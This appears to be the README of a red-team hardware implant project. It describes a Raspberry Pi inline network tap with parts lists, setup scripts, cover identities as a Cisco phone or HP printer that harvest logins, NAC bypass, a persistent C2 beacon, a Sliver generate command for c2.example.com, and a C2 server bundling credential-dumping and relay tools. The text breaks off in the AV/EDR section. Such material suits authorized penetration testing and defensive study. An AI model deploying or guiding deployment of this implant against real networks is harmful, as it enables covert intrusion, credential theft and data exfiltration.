<p align="center">
  
</p>

<h1 align="center">TrashPandaPaws</h1>

<p align="center">
  <a href="https://github.com/BenjiTrapp/TrashPandaPaws"></a>
  
  
  
</p>

Red Team network hardware implant built on a Raspberry Pi 4 with a custom PCB HAT,
running **ParrotOS** (ARM64). Designed for authorized penetration testing engagements.

## Overview

The Raccoon Implant is an inline Ethernet tap that bridges two network ports on a custom HAT
and captures traffic transparently while providing remote C2 access. The entire device is
powered via PoE from the upstream switch port. It presents itself as either a Cisco IP Phone
or an HP network printer to blend into enterprise infrastructure.

## Architecture





## Hardware

Three build variants are available. Pick the one that fits your engagement:

| | Lite (off-the-shelf) | v1 (Pi 4 + HAT) | v2 (CM4 carrier) |
|---|---|---|---|
| Custom PCB | None | 1 (2-layer HAT) | 1 (4-layer carrier) |
| Boards | Pi + switch | 2 (stacked) | 1 |
| Total size | Pi + switch box | 85×56 + 65×56mm | 85×56mm |
| Cost | ~€95 | ~$75 + PCB | ~$53 + PCB |
| PoE | External (UniFi switch) | Custom HAT | On-board |
| Soldering | None | SMD (HAT) | Fine-pitch (CM4) |
| Best for | Lab / quick deploy / training | Field deployment | Covert long-term |

### Lite: Raspberry Pi + UniFi PoE Switch

Zero soldering, fully off-the-shelf. A Raspberry Pi 4 with a USB Ethernet
adapter and an external UniFi PoE switch for power and connectivity.
Ideal for lab testing, training, and quick field deployments where
stealth is less critical.


**Shopping List:**

| Qty | Item | Search Term | Est. Price |
|-----|------|-------------|------------|
| 1 | Raspberry Pi 4 Model B 4GB | `Raspberry Pi 4 Model B 4GB RAM` | ~60 € |
| 1 | USB 3.0 Gigabit Ethernet Adapter | `USB 3.0 Gigabit Ethernet Adapter RTL8153` | ~12 € |
| 1 | microSD Card 32GB+ (A2) | `SanDisk Extreme 32GB microSD A2` | ~10 € |
| 1 | UniFi USW-Flex-Mini | `Ubiquiti USW-Flex-Mini` | ~30 € |
| 3 | Short Ethernet cables (30cm) | `Cat6 Ethernet Cable 30cm short` | ~8 € |
| 1 | USB-C PSU 5V 3A (if no PoE) | `Raspberry Pi 4 USB-C Power Supply 5V 3A` | ~10 € |

> **Total: ~€95** without PoE injector. All parts are available from Amazon or similar retailers.

**Power Options:**

| Setup | How |
|-------|-----|
| PoE-powered switch | Connect the UniFi USW-Flex-Mini to a PoE switch port so it powers itself |
| PoE to Pi | Use the USW-Flex-Mini with a PoE splitter (e.g. `UCTRONICS PoE Splitter USB-C 5V`) to feed USB-C into the Pi |
| Standalone | Use a USB-C power supply for the Pi and a regular switch uplink |

**Advantages:**
- No soldering and no custom PCB required. Ready to deploy in 10 minutes.
- Components are easy to replace individually.
- The UniFi switch blends in as a normal network device.
- Well suited for red team training and proof-of-concept demos.

**Disadvantages:**
- Physically larger than v1/v2 because it consists of two separate devices.
- No integrated PoE for the Pi, so a splitter or USB-C PSU is needed.
- Less covert than a custom board hidden inside a phone or printer enclosure.

**Quick Start (Lite):**

```bash
# 1. Flash ParrotOS onto the SD card
# 2. Boot the Pi and connect the USB Ethernet adapter
sudo ./software/setup/bootstrap.sh
sudo ./software/setup/configure_bridge.sh
sudo ./services/install.sh

# 3. Connect UniFi switch uplink to target network, Pi to port 2, target device to port 3
sudo reboot
```

### v1: Raspberry Pi 4 + Custom PoE HAT

| Component               | Part                  | Purpose                        |
|--------------------------|-----------------------|--------------------------------|
| SBC                      | Raspberry Pi 4B 4GB   | Compute (ParrotOS ARM64)      |
| PoE PD Controller        | SI3402-B              | IEEE 802.3af PoE extraction   |
| DC-DC Converter          | TPS54302              | 48V → 5V @ 3A                 |
| USB-to-GbE Controller    | RTL8153B-VB-CG        | Second Ethernet port          |
| RJ45 Jack                | HR911105A             | Downstream Ethernet connector |
| GPIO Header              | 2x20 pin 2.54mm      | Pi HAT interface              |

Full BOM: [`hardware/bom.csv`](hardware/bom.csv)
PCB Design: [`hardware/kicad/`](hardware/kicad/) (Schematic + PCB, KiCad 10)

<details>
<summary><strong>PCB Layout</strong> (click to expand)</summary>
<br>
<p align="center">
  
</p>
<p align="center">
  
</p>

65×56mm 2-layer board with SI3402-B PoE PD, TPS54302 DC-DC, RTL8153B USB-GbE,
AP2112K LDO, W25Q16 SPI Flash, RJ45 downstream jack, USB-A 3.0 to Pi,
2×20 GPIO header, and all passives (19 caps, 8 resistors). GND pour on back copper.
</details>

### v2: Integrated Carrier Board (CM4)

Single-board design that replaces the Pi 4 + HAT stack with a Raspberry Pi
Compute Module 4 carrier board. Everything on one 85×56mm 4-layer PCB.



| | v1 (Pi 4 + HAT) | v2 (CM4 carrier) |
|---|---|---|
| Boards | 2 (stacked) | 1 |
| Size | 85×56 + 65×56mm | 85×56mm |
| Height | ~25mm | ~10mm |
| Cost | ~$75 | ~$53 |
| ETH1 | USB cable/dongle | On-board traces |
| PCB layers | 2 | 4 |

Design guide: [`hardware/v2-integrated/design-guide.md`](hardware/v2-integrated/design-guide.md)
BOM: [`hardware/v2-integrated/bom.csv`](hardware/v2-integrated/bom.csv)

### Shopping List for v1 HAT Components (Retail)

Additional retail parts needed alongside the v1 HAT PCB:

| Qty | Item | Search Term | Est. Price |
|-----|------|-------------|------------|
| 1 | Raspberry Pi 4 Model B 4GB | `Raspberry Pi 4 Model B 4GB RAM` | ~60 € |
| 1 | microSD Card 32GB+ (A2, U3) | `SanDisk Extreme 32GB microSD A2` | ~10 € |
| 2 | Short Ethernet cables (30cm, Cat6) | `Cat6 Ethernet Cable 30cm short` | ~5 € |

> **Note:** The v1 HAT provides PoE power and the second Ethernet port
> on-board, so no USB adapter or USB-C PSU is needed in production. For lab
> testing without the HAT, use the **Lite** variant above.

### Parts Sourcing (Electronic Distributors)

All ICs and passives for the custom PoE HAT PCB. Links point to manufacturer
part pages on Mouser, DigiKey and LCSC. These are stable part-number URLs.

#### ICs & Active Components

| Part | MPN | Description | Distributor Links |
|------|-----|-------------|-------------------|
| PoE PD Controller | SI3402-B-FS | IEEE 802.3af PD, QFN-20 | [Mouser](https://www.mouser.com/c/?q=SI3402-B-FS) · [DigiKey](https://www.digikey.com/en/products/filter?keywords=SI3402-B-FS) |
| DC-DC Converter | TPS54302DDCR | 3A 28V step-down, SOT-23-6 | [Mouser](https://www.mouser.com/c/?q=TPS54302DDCR) · [DigiKey](https://www.digikey.com/en/products/filter?keywords=TPS54302DDCR) |
| USB-GbE Controller | RTL8153B-VB-CG | USB 3.0 to GbE, QFN-48 | [LCSC](https://www.lcsc.com/search?q=RTL8153B-VB-CG) |
| 3.3V LDO | AP2112K-3.3TRG1 | 600mA LDO, SOT-23-5 | [Mouser](https://www.mouser.com/c/?q=AP2112K-3.3TRG1) · [DigiKey](https://www.digikey.com/en/products/filter?keywords=AP2112K-3.3TRG1) |
| SPI Flash | W25Q16JVSSIQ | 16Mbit, SOP-8 (RTL8153B FW) | [LCSC](https://www.lcsc.com/search?q=W25Q16JVSSIQ) |

#### Magnetics, Connectors & Diodes

| Part | MPN | Description | Distributor Links |
|------|-----|-------------|-------------------|
| PoE Transformer | 750342460 | Flyback 48V:5V | [Mouser](https://www.mouser.com/c/?q=750342460) |
| RJ45 + Magnetics | HR911105A | 10/100/1000, THT | [LCSC](https://www.lcsc.com/search?q=HR911105A) |
| GPIO Header | SSW-120-02-G-D | 2x20 2.54mm, THT | [Mouser](https://www.mouser.com/c/?q=SSW-120-02-G-D) · [DigiKey](https://www.digikey.com/en/products/filter?keywords=SSW-120-02-G-D) |
| USB-A Male | USB 3.0 Type-A Male | SMD, to Pi USB port | [Mouser](https://www.mouser.com/c/?q=USB+3.0+type+A+male+SMD) |
| Schottky Diode | MBRS340T3G | 40V 3A, SMA | [Mouser](https://www.mouser.com/c/?q=MBRS340T3G) |
| TVS Diode | SMBJ58A | 58V PoE protection | [Mouser](https://www.mouser.com/c/?q=SMBJ58A) |
| Dual Schottky | BAT54S | SOT-23 (×2) | [Mouser](https://www.mouser.com/c/?q=BAT54S) |
| Crystal 25MHz | 25MHz 3215 | For RTL8153B | [LCSC](https://www.lcsc.com/search?q=25MHz+3215+crystal) |
| PTC Fuse | nSMD050-24V | 500mA resettable, 1206 | [Mouser](https://www.mouser.com/c/?q=nSMD050-24V) |

#### Passives (Capacitors, Resistors, Inductors, LEDs)

| Part | MPN | Value / Package | Qty | Source |
|------|-----|-----------------|-----|--------|
| Power Inductor | SRN6045TA-100M | 10µH 3A, 1210 | 1 | [Mouser](https://www.mouser.com/c/?q=SRN6045TA-100M) |
| Inductor | LQM21FN4R7M | 4.7µH, 0805 | 1 | [LCSC](https://www.lcsc.com/search?q=LQM21FN4R7M) |
| Electrolytic Cap | UVR1H101MDD1TD | 100µF 50V (×2) | 2 | [Mouser](https://www.mouser.com/c/?q=UVR1H101MDD1TD) |
| MLCC 22µF | CL21A226MQQNNNG | 22µF 10V, 0805 (×2) | 2 | [LCSC](https://www.lcsc.com/search?q=CL21A226MQQNNNG) |
| MLCC 10µF | CL21A106KOQNNNG | 10µF 25V, 0805 (×2) | 2 | [LCSC](https://www.lcsc.com/search?q=CL21A106KOQNNNG) |
| MLCC 100nF | CL05B104KO5NNNC | 100nF, 0402 (×6) | 6 | [LCSC](https://www.lcsc.com/search?q=CL05B104KO5NNNC) |
| MLCC 10pF | CL05C100JB5NNNC | 10pF, 0402 (×2) | 2 | [LCSC](https://www.lcsc.com/search?q=CL05C100JB5NNNC) |
| Resistors | 0402 assorted | 75R, 1K, 10K, 22K, 25.5K, 49.9K, 100K | 10 | [LCSC](https://www.lcsc.com/search?q=RC0402FR) |
| LED Green | 19-217/GHC-YR1S2/3T | 0402 link activity | 1 | [LCSC](https://www.lcsc.com/search?q=19-217%2FGHC-YR1S2) |
| LED Amber | 19-217/Y2C-CQ2R2L/3T | 0402 power | 1 | [LCSC](https://www.lcsc.com/search?q=19-217%2FY2C-CQ2R2L) |

> **Tip:** Order passives (capacitors, resistors, LEDs) from LCSC. They
> ship from Shenzhen with low minimums and stock every Samsung/Yageo/Murata
> part. ICs and the transformer are easier to source from Mouser/DigiKey
> where authenticity is guaranteed.

## Software

### Features

- Transparent Ethernet bridge that acts as a zero-config inline tap
- Selective traffic capture with BPF filters and rotating PCAP output
- **Two cover identities** selectable via `configs/raccoon.yaml`:
  - **Cisco IP Phone 7960** emulating SIP, RTP, and an HTTP admin interface
  - **HP Color LaserJet Pro MFP M478** emulating HTTP (401), JetDirect/PJL (9100), LPD (515), CUPS/IPP (631), SNMP (161), and Telnet (23)
- **802.1X NAC bypass** using EAPOL forwarding, passive discovery, and ebtables/iptables L2/L3 rewriting
- **Remote access** via SSH reverse tunnel (autossh) and VNC (headless x11vnc), both independently configurable
- Credential capture from HTTP Basic Auth and Telnet login attempts
- C2 beacon over DNS and HTTPS with jittered callbacks
- Captured data exfiltration via DNS tunneling or HTTPS
- Watchdog and systemd auto-recovery
- Full Cisco IOS-style logging

### Cover Modes

| Mode | Config Value | Services | Use Case |
|------|-------------|----------|----------|
| Cisco VoIP Phone | `cisco_phone` | HTTP :80, SIP :5060, RTP :10000 | VoIP-heavy environments |
| HP Network Printer | `hp_printer` | HTTP :80, PJL :9100, LPD :515, IPP :631, SNMP :161, Telnet :23 | Office environments with network printers |

Set `device_mode` at the top of `configs/raccoon.yaml` to switch.

<details>
<summary><strong>Demo: Cisco IP Phone 7960</strong> (click to expand)</summary>
<br>
<p align="center">
  
</p>

Emulates a Cisco Unified Communications login portal. Shows device model,
firmware version, and MAC address. The warning banner ("Restricted to
authorized personnel only") adds authenticity. Login attempts are captured
and forwarded via notifications.
</details>

<details>
<summary><strong>Demo: HP Color LaserJet Pro MFP M478</strong> (click to expand)</summary>
<br>
<p align="center">
  
</p>

Emulates the HP Embedded Web Server (EWS) with a full navigation bar
(Home, Scan, Fax, Web Services, Network, Tools, Settings). Every tab
requires authentication. The login card shows model, firmware, serial
number, IP, and MAC. All values match the configured device profile.
</details>

### Quick Setup

#### Option A: Image Builder (recommended)

Build a ready-to-boot SD card from your workstation without any manual setup on the Pi.
Runs on Linux, macOS, or WSL2.

```bash
# Flash SD card directly (interactive, confirms before writing)
sudo ./software/setup/build_image.sh /dev/sdX

# With WiFi for headless first boot
sudo ./software/setup/build_image.sh /dev/sdX --wifi MyNetwork:MyPassword

# With custom config and credentials
sudo ./software/setup/build_image.sh /dev/sdX \
  --config /path/to/raccoon.yaml \
  --user operator:s3cret \
  --wifi FieldOps:hunter2

# Build image only (don't flash)
sudo ./software/setup/build_image.sh --no-flash
# → .build/output/trashpandapaws-6.2.img
```

The image builder downloads ParrotOS ARM64, injects the Raccoon software and config,
and creates a first-boot provisioning service that installs all dependencies, configures
networking, and enables all services automatically. Insert the SD card, power on, wait
~5 minutes for first boot.

#### Option B: Manual setup

On a fresh ParrotOS ARM64 installation (Raspberry Pi 4):

```bash
sudo ./software/setup/bootstrap.sh       # system deps + ParrotOS hardening
sudo ./software/setup/configure_bridge.sh # bridge eth0 <-> eth1
sudo ./services/install.sh               # systemd + beacon persistence
sudo reboot                              # activates MAC spoof + bridge + beacon autorun
```

After reboot the C2 beacon starts automatically via 5 independent persistence layers. No manual `systemctl start` is needed.

### Beacon Persistence (Autorun)



The PID lock file prevents duplicate instances. Whichever layer starts first holds the lock and the rest exit silently. The systemd timer watchdog restarts the beacon if all instances die.

### Why ParrotOS?

- Pre-installed security tools (scapy, tcpdump, nmap, aircrack, john, etc.)
- Hardened Debian base with AppArmor profiles
- Smaller attack surface than Kali (lighter desktop options)
- Official ARM64 images for Raspberry Pi 4
- `macchanger` included for boot-time MAC spoofing
- Familiar `apt` package management

### C2: Sliver Integration

The Raccoon Implant uses [Sliver](https://github.com/BishopFox/sliver) as the primary C2 framework.
The custom Python beacon serves as a fallback if the Sliver binary is unavailable.



**Deployment (on operator machine):**

```bash
# Option 1: Interactive, opens Sliver console
./software/setup/deploy_sliver.sh generate

# Option 2: Automated, generates with defaults
./software/setup/deploy_sliver.sh generate-auto c2.example.com

# Deploy to implant device
./software/setup/deploy_sliver.sh deploy 192.168.1.100

# Or generate + deploy in one step
./software/setup/deploy_sliver.sh full c2.example.com 192.168.1.100
```

**Recommended Sliver generate command:**

```
generate beacon --os linux --arch arm64 \
  --mtls c2.example.com:8888 \
  --http c2.example.com \
  --dns c2.example.com \
  --seconds 300 --jitter 20 \
  --skip-symbols \
  --name raccoon \
  --save ./bin/implant
```

### C2: Team Server (Operator GUI)

The Raccoon C2 Team Server is a Flask-based command & control server with an
embedded single-page operator GUI. It manages beacon agents, provides an
interactive terminal, and integrates offensive tooling for post-exploitation.



**GUI Features:**

| Feature | Description |
|---------|-------------|
| Agent Management | List, select, and interact with beacon agents in real-time |
| Interactive Terminal | Send commands to beacons with autocomplete and history |
| File Browser | Navigate the remote filesystem, download files, upload, and loot directories |
| Loot Viewer | Browse and download all collected loot (files, credentials) |
| Process Listing | `tasklist /v` with automatic AV/EDR/SOC product detection (33 products) |
| Netstat View | Parsed network connections table with automatic security assessment |
| Pivot View | Discover and enumerate hosts on adjacent subnets |
| Server Logs | Global server log viewer with filtering (accessible without active agent) |

**Integrated Offensive Tools:**

| Tool | Purpose | Integration |
|------|---------|-------------|
| [Impacket](https://github.com/fortra/impacket) | PsExec, WMIExec, SMBExec, SecretsDump, Kerberoast, AS-REP Roast, DCSync | GUI menu with credential input |
| [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec) | Host enumeration, AV/EDR detection, credential spraying, custom modules | Pivot view integration + standalone |
| [Lsassy](https://github.com/Hackndo/lsassy) | Remote LSASS credential dumping | Via Impacket menu |
| [RelayKing](https://github.com/depthsecurity/RelayKing-Depth) | NTLM relay vulnerability auditing (SMB/LDAP/HTTP/MSSQL) | Dedicated dialog with domain/target config |
| [Responder](https://github.com/lgandx/Responder) | LLMNR/NBT-NS/mDNS poisoning for credential capture | Interface selection, toggle options |

**AV/EDR Enumeration:**

The server includes a built-in AV/EDR scanner based on
